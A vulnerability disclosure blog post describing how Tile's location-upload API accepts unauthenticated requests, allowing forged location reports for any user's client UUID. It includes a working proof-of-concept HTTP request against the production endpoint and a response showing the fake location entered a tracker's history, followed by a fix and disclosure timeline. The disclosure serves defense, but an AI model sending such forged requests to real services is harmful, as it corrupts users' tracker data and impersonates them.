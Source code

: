 ```yaml
---
title: 'Tile - Unauthorized Location Reports with Impersonation'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an attacker to send forged location reports while pretending to be another user. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows an attacker to send forged location reports while pretending to be another user.

# Vulnerability

The API endpoint to upload location reports doesn't properly check the user's session, allowing an unauthenticated attacker to upload location reports for the Tile trackers of other users while pretending to be someone else.

Using this vulnerability, an attacker could effectively make Tile's tracking network (called _Community Find_) unusable for all users on the platform.

It is unclear to what extent the impersonation affects users.
As the attacker is able to specify the client UUID of any user's client, the effect depends on how Tile further processes the client UUID.

# Proof-of-Concept

To upload a fake location report, the attacker must send the request below.
The attacker must either record or know a Bluetooth Low-Energy advertisement of the targeted Tile tracker or create a valid advertisement from the tracker's Tile UUID.
They must specify the advertisement value in the field `payload_service_data` in the request's body.

```http
POST https://locations-prod.tile-api.com/api/v1/clients/:clientUUID/batch_location_updates HTTP/1.1
tile_app_id: android-tile-production
tile_app_version: 2.115.0.5050
tile_request_timestamp: 1702998513342
Content-Type: application/json
Accept: */*
Host: locations-prod.tile-api.com
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 978

{
	"updates": [
		{
			"location": {
				"altitude": 182.5,
				"course": 0.0,
				"course_accuracy": 0.0,
				"horizontal_accuracy": 20.0,
				"latitude": 13.0,
				"longitude": 37.0,
				"speed": 0.0,
				"speed_accuracy": 0.0,
				"timestamp": 1702998513342,
				"vertical_accuracy": 1.1406626
			},
			"record_id": "1",
			"tiles": [
				{
					"advertised_service_data": {
						"mac_address": "[...]",
						"payload_service_data": "[...]",
						"payload_tx_power_level": "0x-80000000",
						"rssi": -53.0
					},
					"discovery_timestamp": 1702998513342,
					"record_id": "1"
				}
			]
		}
	]
}
```
The request demonstrates that it is possible to specify a valid client UUID when sending location reports without any authentication.
Thus, it is possible to impersonate any client.
Note that the request doesn't contain a session cookie.
However, the server still accepts the request.
Moreover, the attacker can specify any client UUID, and the server simply accepts it.
Since the client UUID is linked to a specific account, the attacker can impersonate any user's client.


The following request and response show that the location report sent in the request above was inserted into the device's location history.
It's the location history of the device to which the advertisement referenced in the location report belongs.

```http
GET https://production.tile-api.com/api/v1/tiles/location/history/:tileUUID?start_ts=0 HTTP/1.1
Cookie: session=[...]
[...]: [...]

HTTP/1.1 200 OK
[...]: [...]

{
    "version": 1,
    "revision": 1,
    "timestamp": "2024-03-12T14:47:17.935Z",
    "timestamp_ms": 1710254837935,
    "result_code": 0,
    "result": {
        "complete_history": "Y",
        "location_updates": [
            {
                "tile_uuid": ":tileUUID",
                "location_timestamp": 1710254284721,
                "raw_precision": 20.0,
                "latitude": 13.0,
                "longitude": 37.0,
                "precision": 20.0
            },
            [...]
		]
    }
}
```

# Fix

It is recommended to validate the user's session and reject the request if the session cookie is missing, invalid, or doesn't belong to the specified client UUID.
If unauthenticated location reports should be possible, it is recommended to remove the client UUID from the request URL.
However, these would only fix the impersonation issue.
Fixing the issue of fake location reports requires changes to the entire _Community Find_ network.

# Timeline

- 2024-03-13: Contacted Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacted Tile's support asking for a status update
